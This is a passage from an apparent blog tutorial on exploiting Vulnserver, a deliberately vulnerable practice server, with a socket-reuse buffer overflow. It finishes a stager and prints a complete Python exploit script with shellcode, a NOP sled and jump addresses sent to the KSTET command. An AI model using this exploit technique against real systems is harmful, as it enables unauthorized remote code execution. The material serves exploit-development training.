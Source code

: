 ![](/assets/images/2019-06-21-using-socket-reuse-to-exploit-vulnserver/0026.jpg)

And with that - our stager is complete! You can now grab a copy of the hex values to be added into the exploit by highlighting the newly added instructions and doing a binary copy from the context menu.

Finalising the Exploit
----------------------
Now that we have the final stager shell code complete, we can place it at the start of the 70 byte NOP sled in our exploit. When doing this, we need to be sure that the island still remains at a total of 70 bytes, as to not break the overflow and to ensure that we have NOPs that will lead to the final payload.

Additionally, we will make the exploit wait a few seconds before it sends the final payload, to ensure that our stager has executed. Although any data we send *should* still be read even if it is sent before the stager calls `recv` as a result of buffering, my personal preference is to add the sleep in to be 100% sure - feel free to experiment with this if you'd rather not include it.

The exploit should now look like this:

```python
import os
import socket
import sys
import time

host = '10.2.0.129'
port = 9999

stager =  '\x54\x58\x66\x05\x88\x01\x83\xec'
stager += '\x64\x33\xdb\x53\x80\xc7\x04\x53'
stager += '\x54\x5b\x83\xc3\x64\x53\xff\x30'
stager += '\xb8\x90\x2c\x25\x40\xc1\xe8\x08'
stager += '\xff\xd0'

buffer =  'KSTET '
buffer += stager
buffer += '\x90' * (70 - len(stager)) # nop sled to final payload
buffer += '\xaf\x11\x50\x62'          # jmp esp
buffer += '\xeb\xb4'                  # jmp 0x0110f97e
buffer += '\x90' * 500

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))

s.recv(1024)
s.send(buffer)

```